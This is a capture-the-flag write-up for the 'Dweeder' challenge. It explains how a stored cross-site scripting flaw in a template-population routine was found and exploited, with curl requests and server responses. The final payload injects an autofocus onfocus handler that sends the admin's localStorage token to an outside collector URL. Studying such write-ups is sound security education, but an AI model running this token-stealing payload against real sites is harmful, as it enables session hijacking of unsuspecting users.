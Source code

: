 # Dweeder - KipodAfterFree

## Understanding
Users are allowed to compose titles and contents and submit them to the server. When @shuky is used, the admin will visit the new submissions and check them out. If the site does not sanitize the user inputs properly, malicious scripts can be injected and executed. 

When a user click on the ``send Dweed!`` button, sendDweed() is invoked and the following function is involved:
```javascript
# This function sends a json query to the dweed server. The query is of a json type, consisting of the following parameters: token, title, contents. Two of the parameters, without doubts, are under user's controls (i.e., title, contents). Upon success, the server returns a dweed id, and the function redirects the user to a new url with respect to the dweed id.
function writeDweed() {
    API.call("dweeder", "writeDweed", {
        token: window.localStorage.getItem("token"),
        title: UI.read("write-title"),
        contents: UI.read("write-contents")
    }).then((id) => {
        window.location = "?dweed=" + id;
    }).catch(alert);
}
```

When a dweed is rendered, either by listener or an explicit click on the Feed menu, the following functions are involved:
```javascript
# readDweed is called to obtain a dweed info from the server
function readDweed(id) {
    return new Promise((resolve, reject) => {
        API.call("dweeder", "readDweed", {
            token: window.localStorage.getItem("token"),
            id: id
        }).then((dweed) => {
            ...
            resolve(dweed);
        }).catch(reject);
    });
}
# then insertDweed is called to validate a dweed id before writing the dweed back into the HTML template
function insertDweed(dweed) {
    ...
    // Make sure id is valid
    if (dweed.id.length > 28)
        return;
    for (let char of dweed.id)
        if ("0123456789 abcdefghijklmnopqrstuvwxyz ABCDEFGHIJKLMNOPQRSTUVWXYZ !@#$%^&*()_-+={}|".includes(char) === false)
            return;
    // Add the dweed
    UI.find("dweeds").appendChild(UI.populate(template, dweed));
}
```
While populating the dweed, all user-supplied parameters are iterated and are replaced with their values. At the same time, their contents are also sanitized:
```javascript
static populate(template, parameters = {}) {
  ...
  // Sanitize value using the default HTML sanitiser of the target browser
  let sanitizer = document.createElement("p");
  sanitizer.innerText = value;
  value = sanitizer.innerHTML;
}
```

## Enumerating

After a few submissions, we can observe that the two parameters (i.e., title and contents) are properly filtered not only on the server side, but also on the client side (by the HTML sanitiser).

However, the server allows us to create new parameters, which can help us by pass the sanitization on the server side. Let's check this out:
```bash
# 1st attempt
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"313630353134353638306f676771","status":true} # Server responses

curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&id=313630353134353638306f676771" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?readDweed
{"result":{"title":"a","contents":"a","time":"01:48","handle":"test213"},"status":true} # Server responses

# 2nd attempt
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a&myvar=a" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"313630353134353939396e70326e","status":true}

curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&id=3136303531343638333436366d64" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?readDweed
{"result":{"title":"a","contents":"a","myvar":"ajavascript:alert(1)\"","time":"02:07","handle":"test213"},"status":true}

# 3rd attempt
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a&id=ajavascript:alert(1)\"" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"3136303531343730333175707a74","status":true}

```
From 3 attempts, we concluded a few things:
- In the 1st attempt, we knew all the parameters that the server was expecting
- In the second, we observed that the server allowsedcreation of new parameters
- In the third, we knew that the id parameter was not properly sanitized on the server side. Strangely enough, we could have still visited the dweed using the numeric ID provided by the server. This gave us another hint: server actually uses two types of ID for a dweed, but for what purpose then? 

## Exploiting
The 3rd attempt told us that we needed to look into the id field. We tried to inject code into the id parameter to close the double quote.
```bash
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a&id=\"" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"3136303531343736343936676d33","status":true}
```
However, visiting the dweed renders nothing at this time. This was because the check within the insertDweed() found out that there was an illegal character "\" in the id's value, so it immediately returned. 

Fortunately, since the server allowed new parameter creation(e.g.,$myvar), and since ``$myvar`` would be resolved after the check, we temporarily assigned id = ${myvar} in order to pass the first check. Later, ${myvar} would be resolved during template population. Note that we need to escape the dollar sign. 

```bash
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a&id=\${myvar}&myvar='\" tabindex=1 onfocus=\"alert(1)\" autofocus " -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"3136303531353834353431386f30","status":true}
```
Using Chrome, we immediately saw the pop-up. Chrome automatically applies focus on the div with highest priority (1). It was not clear why this pop-up was not shown in Firefox, which requires user to click on the div area. Next, we changed the alert(1) to malicious code that fetches victim token.

```bash
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=@shuky&id=\${myvar}&myvar='\" tabindex=1 onfocus=\"fetch('https://3b33c4880500a943a57f89f4574b6024.m.pipedream.net/?token='%2BlocalStorage.getItem('token'))\" autofocus " -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"3136303531363031373273703868","status":true}
```
Decoding the victim token, we obtained the flag:{"expiry":null,"content":{"name":"KAF{_w3ll_th4t5_wh4t_b4d_c0d3_l00k5_l1ke}","handle":"shuky"}}


